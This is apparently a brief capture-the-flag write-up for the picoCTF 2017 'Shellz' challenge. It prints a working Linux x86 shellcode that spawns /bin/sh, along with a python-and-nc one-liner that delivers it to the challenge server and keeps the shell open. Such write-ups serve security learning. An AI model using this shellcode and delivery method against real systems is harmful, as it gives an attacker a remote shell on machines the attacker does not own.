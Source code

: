 # Shellz

## Question
  > You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:49324.
  
## Solution
### 1. Try running the program
  Then you try running the program,the program says "Give me 40 byte".So you give the program shellcode within 40 byte.
  
### 2. Search shellcode
Let's find  shellcode within 40 bytes from here! [shellcode-list](http://shell-storm.org/shellcode/)
I guess it is suspicious that linux x86 is suspicious.
  
### 3. Flag
  >(python -c'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x
68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 49324

You can get flag by executing upper code.

